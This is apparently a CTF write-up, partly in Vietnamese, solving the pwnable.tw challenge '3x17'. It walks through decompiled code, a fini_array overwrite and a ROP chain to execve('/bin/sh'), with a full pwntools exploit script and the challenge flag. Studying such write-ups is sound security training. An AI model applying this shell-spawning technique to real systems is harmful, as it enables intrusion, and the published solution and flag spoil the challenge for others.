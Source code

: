 # 3x17 

[150 pts] 

![image](https://github.com/gookoosss/CTF/assets/128712571/d9642ebe-a757-4c75-8925-be42a12fedc0)

## ida 

```c 
// positive sp value has been detected, the output may be wrong!
void __fastcall __noreturn start(__int64 a1, __int64 a2, int a3)
{
  __int64 v3; // rax
  int v4; // esi
  __int64 v5; // [rsp-8h] [rbp-8h] BYREF
  void *retaddr; // [rsp+0h] [rbp+0h] BYREF

  v4 = v5;
  v5 = v3;
  sub_401EB0(
    (unsigned int)main,
    v4,
    (unsigned int)&retaddr,
    (unsigned int)sub_4028D0,
    (unsigned int)call_fini_array,
    a3,
    (__int64)&v5);
  __halt();
}
```

- hmm file bị tripped rồi, nên mk sẽ rename lại 1 số hàm quan trọng 

### main
```c 
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  char *v4; // [rsp+8h] [rbp-28h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  result = (unsigned __int8)++tmp;
  if ( tmp == 1 )
  {
    puts(1u, "addr:", 5uLL);
    read(0, buf, 24uLL);
    v4 = (char *)(int)sub_40EE70(buf);
    puts(1u, "data:", 5uLL);
    read(0, v4, 24uLL);
    result = 0;
  }
  if ( __readfsqword(0x28u) != v6 )
    note();
  return result;
}
```
- đơn giản là nhập địa chỉ sau đó nhập data vào địa chỉ đó
- hmm vậy ta có thể ow những địa chỉ quan trọng

### call_fini_array 

```c 
__int64 call_fini_array()
{
  signed __int64 v0; // rbx

  if ( (&unk_4B4100 - (_UNKNOWN *)fini_array) >> 3 )
  {
    v0 = ((&unk_4B4100 - (_UNKNOWN *)fini_array) >> 3) - 1;
    do
      fini_array[v0--]();
    while ( v0 != -1 );
  }
  return term_proc();
}
``` 

- gọi địa chỉ fini_array ra khi kết thúc chương trình 

## Analysis 

- thử kiểm tra các pop thì ta thấy có đầy đủ pop rdi, rax, rdx, rsi và syscall => ret2ROPchain 
- mỗi lần nhập chỉ tối đa 24byte, mà để set các arg cho syscall execve thì cần rất nhiều byte => cần phải nhập nhiều lần 
- ko có lỗi BOF nên muốn lặp lại hàm main chỉ có cách là ow fini_array thành địa chỉ hàm main => lặp vô tận
- sau khi set xong các arg thì ta sẽ kết thúc chương trình gadget leave; ret (bỏ qua hàm main)

## Exploit
- trước tiên cứ tìm các addr cần thiết đã 
```python 
main = 0x401b6d
fini_array = 0x00000000004b40f0
pop_rdi = 0x0000000000401696
pop_rax = 0x000000000041e4af
pop_rdx = 0x0000000000446e35 
pop_rsi = 0x0000000000406c30
syscall = 0x00000000004022b4
leave = 0x0000000000401c4b
call_fini_array = 0x402960
```
- ý tưởng của mình lúc này  

![image](https://github.com/gookoosss/CTF/assets/128712571/591b0b5d-e9f2-4f2b-a198-343446d3d891)


```python 
add(fini_array,  p64(main) + p64(0))
add(fini_array + 16, p64(pop_rdi) + p64(fini_array + 88))
add(fini_array + 32, p64(pop_rdx) + p64(0))
add(fini_array + 48, p64(pop_rsi) + p64(0))
add(fini_array + 64, p64(pop_rax) + p64(0x3b))
add(fini_array + 80, p64(syscall) + b'/bin/sh\0')
add(fini_array, p64(leave))
```

- sau khi set xong thì mk sẽ ow fini_array thành leave;ret để lấy shell
- nma có lỗi gì rồi mà mk ko lấy shell được
- tham khảo wu thì thấy phải thêm hàm call_fini_array vào đầu

### lý do 

![image](https://github.com/gookoosss/CTF/assets/128712571/141e346a-88d0-466c-ae9e-d2ff3fac7a04)


- mình sẽ sửa thành ntn 

```python 
add(fini_array, p64(call_fini_array) + p64(main))
add(fini_array + 16, p64(pop_rdi) + p64(fini_array + 88))
add(fini_array + 32, p64(pop_rdx) + p64(0))
add(fini_array + 48, p64(pop_rsi) + p64(0))
add(fini_array + 64, p64(pop_rax) + p64(0x3b))
add(fini_array + 80, p64(syscall) + b'/bin/sh\0')
add(fini_array, p64(leave))
``` 

- cuối cùng ta cũng lấy được shell 

![image](https://github.com/gookoosss/CTF/assets/128712571/1372c448-5958-4fc3-a61c-a2741c824f3a)


## script 

```python 
from pwn import *

# p = process('./3x17')
p = remote('chall.pwnable.tw', 10105)
exe = ELF('./3x17')

main = 0x401b6d
fini_array = 0x00000000004b40f0
pop_rdi = 0x0000000000401696
pop_rax = 0x000000000041e4af
pop_rdx = 0x0000000000446e35 
pop_rsi = 0x0000000000406c30
syscall = 0x00000000004022b4
leave = 0x0000000000401c4b
call_fini_array = 0x402960


def add(addr, data):
    p.sendafter(b'addr:', str(addr))
    p.sendafter(b'data:', data)

add(fini_array, p64(call_fini_array) + p64(main))
add(fini_array + 16, p64(pop_rdi) + p64(fini_array + 88))
add(fini_array + 32, p64(pop_rdx) + p64(0))
add(fini_array + 48, p64(pop_rsi) + p64(0))
add(fini_array + 64, p64(pop_rax) + p64(0x3b))
add(fini_array + 80, p64(syscall) + b'/bin/sh\0')
add(fini_array, p64(leave))

p.interactive()

# FLAG{Its_just_a_b4by_c4ll_0riented_Pr0gramm1ng_in_3xit}
``` 

## Flag 

FLAG{Its_just_a_b4by_c4ll_0riented_Pr0gramm1ng_in_3xit}

## refenrence 

https://hackmd.io/@trhoanglan04/ryoncvv42#3x17-150-pts
